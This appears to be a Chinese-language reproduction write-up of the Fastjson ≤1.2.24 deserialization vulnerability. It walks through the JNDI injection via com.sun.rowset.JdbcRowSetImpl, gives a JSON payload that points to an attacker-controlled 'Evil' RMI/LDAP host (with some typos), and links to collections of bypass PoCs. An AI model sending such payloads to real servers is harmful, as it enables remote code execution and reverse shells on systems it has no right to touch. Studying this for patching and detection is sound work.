 ## **小于等于1.2.24版本**
请求包的请求体JSON字符会带有一个@type来标记其字符的原始类型，在反序列化的时候会读取这个@type，来把JSON内容反序列化成@type指定的对象，并且会调用这个对象的setter或者getter方法。
此时@type的类有可能被恶意构造，只需要合理构造一个JSON，使用@type指定一个想要的攻击类库就可以实现攻击。

常见的有sun官方提供的一个类com.sun.rowset.JdbcRowSetImpl，其中有个dataSourceName方法，在执行时会触发JNDI注入支持，传入一个rmi的源或ldap源，只要解析其中的url就会支持远程调用，
因此整个漏洞复现的原理过程就是：
```
1. 攻击者（我们）访问存在fastjson漏洞的目标靶机网站，通过burpsuite抓包改包，
以json格式添加com.sun.rowset.JdbcRowSetImpl恶意类信息发送给目标机。
2. 存在漏洞的靶机对json反序列化时候，会加载执行我们构造的恶意信息(访问rmi服务器)，
靶机服务器就会向rmi服务器请求待执行的命令。
也就是靶机服务器问rmi服务器，（靶机服务器）需要执行什么命令啊？
3. rmi 服务器请求加载远程机器的class（这个远程机器是我们搭建好的恶意站点，
提前将漏洞利用的代码编译得到.class文件，并上传至恶意站点），
得到攻击者（我们）构造好的命令（ping dnslog或者创建文件或者反弹shell等）
4. rmi将远程加载得到的class（恶意代码），作为响应返回给靶机服务器。
5. 靶机服务器执行了恶意代码，被攻击者成功利用。
```
```
{
    "@type": "com.sun.rowset.JdbcRowSetImpl",
    "dataSourceNamw": "ladp:xxx:1099/Evil",
    "autoCommit":"true"
}
```
![](https://img-bc.icode.best/26de9fc36b2940c6882491c5453db571.png)



在 Fastjson1.2.25 中使用了 checkAutoType 来修复1.2.22-1.2.24中的漏洞，其中有个 autoTypeSupport 默认为 False。当 autoTypeSupport 为 False 时，先黑名单过滤，再白名单过滤，若白名单匹配上则直接加载该类，否则报错。当 autoTypeSupport 为 True 时，先白名单过滤，匹配成功即可加载该类，否则再黑名单过滤。对于开启或者不开启，都有相应的绕过方法。​

^
## **其他绕过和利用链**

<https://github.com/lemono0/FastJsonParty/blob/main/Fastjson%E5%85%A8%E7%89%88%E6%9C%AC%E6%A3%80%E6%B5%8B%E5%8F%8A%E5%88%A9%E7%94%A8-Poc.md>

<https://github.com/safe6Sec/Fastjson>

